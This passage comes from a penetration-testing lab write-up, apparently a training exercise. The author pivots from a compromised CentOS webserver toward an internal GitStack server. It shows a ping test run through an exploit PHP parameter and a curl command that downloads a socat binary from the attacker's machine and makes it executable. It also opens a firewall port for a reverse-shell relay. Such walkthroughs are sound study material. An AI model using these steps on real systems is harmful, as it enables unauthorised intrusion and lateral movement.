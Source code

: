 But I first need to test IF the GitStack server can reach my attack machine directly.

I decided to setup a tcmpdump listener on my attack box and listen for icmp packets:

```bash
sudo tcpdump -i tun0 icmp
```

Via burpsuite I sent over 3 pings to my attack box trough the exploit-Incendium.php **a** parameter:

![Untitled](Github%20ser%20a938a/Untitled%209.png)

Results from the GitStack server:

```bash
"
Pinging 10.50.55.63 with 32 bytes of data:
Request timed out.
Request timed out.
Request timed out.

Ping statistics for 10.50.55.63:
    Packets: Sent = 3, Received = 0, Lost = 3 (100% loss),
"
```

Unfortunately, the GitStack server is not able to reach our attack machine directly. So we have to forward a shell trough the webserver running port .200.

---

### 2.3 Forwarding reverse shell with socat

First of all, I downloaded the static socat binary on the webserver while running a python webserver on my attack box listening on port 80:

```bash
curl 10.50.55.63/socat -o /tmp/socat-Incendium && chmod +x /tmp/socat-Incendium
```

Result:

![Untitled](Github%20ser%20a938a/Untitled%2010.png)

- As you can see, we now have the nmap and the socat static binaries in the /tmp folder of the webserver.

Opening a port on the webserver running Centos means that we have to allow this first in the firewall-cmd like so:

```bash
firewall-cmd --zone=public --add-port 15070/tcp
```
